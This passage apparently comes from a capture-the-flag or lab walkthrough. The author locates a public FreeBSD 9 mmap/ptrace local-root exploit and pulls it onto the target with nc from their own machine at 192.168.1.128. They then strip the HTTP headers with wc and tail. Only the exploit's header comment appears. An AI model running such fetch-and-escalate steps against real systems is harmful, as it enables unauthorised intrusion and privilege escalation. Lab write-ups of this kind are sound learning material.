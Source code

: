I hit up Google for FreeBSD 9 exploits. I found a promising exploit [here](http://www.exploit-db.com/exploits/26368/). I copied it over to /var/www/ and used nc on the target to download it from my machine:

```
$ nc 192.168.1.128 80 > exploit.c 
GET http://192.168.1.128/26368.c HTTP/1.0
 
$ ls -l exploit.c
-rw-rw-rw-  1 www  wheel  2499 Apr  8 11:52 exploit.c
```

Unfortunately, I couldn't compile the source code just yet, as 11 lines of nc's output were also written to it:

```
$ head -20 exploit.c
HTTP/1.1 200 OK
Date: Tue, 08 Apr 2014 15:52:13 GMT
Server: Apache/2.2.22 (Debian)
Last-Modified: Tue, 08 Apr 2014 15:50:26 GMT
ETag: "1691a9-8a7-4f689f14e3431"
Accept-Ranges: bytes
Content-Length: 2215
Connection: close
Content-Type: text/x-csrc
X-Pad: avoid browser bug
 
/*
 * FreeBSD 9.{0,1} mmap/ptrace exploit
 * by Hunger <fbsd9lul@hunger.hu>
 *
 * Happy Birthday FreeBSD!
 * Now you are 20 years old and your security is the same as 20 years ago... :)
 *
 * Greetings to #nohup, _2501, boldi, eax, johnny_b, kocka, op, pipacs, prof,
 *              sd, sghctoma, snq, spender, s2crew and others at #hekkcamp:
$ 
</fbsd9lul@hunger.hu>
```

No problem, using wc I found that the total number of lines in the file was 100. Subtract 11 from that and use tail to get the actual source code and redirect it to exploit2.c

```
$ wc -l exploit.c
     100 exploit.c
$ tail -89 exploit.c > exploit2.c
$ head exploit2.c
/*
 * FreeBSD 9.{0,1} mmap/ptrace exploit
 * by Hunger <fbsd9lul@hunger.hu>
 *
 * Happy Birthday FreeBSD!
 * Now you are 20 years old and your security is the same as 20 years ago... :)
 *
 * Greetings to #nohup, _2501, boldi, eax, johnny_b, kocka, op, pipacs, prof,
 *              sd, sghctoma, snq, spender, s2crew and others at #hekkcamp:
 *                      I hope we'll meet again at 8@1470n ;)
$ 
</fbsd9lul@hunger.hu>
```
